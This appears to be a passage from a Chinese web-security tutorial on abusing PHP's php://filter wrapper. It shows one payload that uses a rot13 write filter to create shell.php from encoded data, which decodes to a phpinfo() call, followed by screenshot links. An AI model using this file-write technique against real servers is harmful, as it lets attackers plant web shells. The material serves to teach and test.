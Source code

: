 ```
?path=php://filter/write=string.rot13/resource=shell.php&data=PD9jdWMgY3VjdmFzYigpOz4=
```
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_47_6ces01bR.png)
![image.png](./phpfilter协议利用.assets/2023_05_19_10_41_47_wDdGXzsW.png)
## 其他利用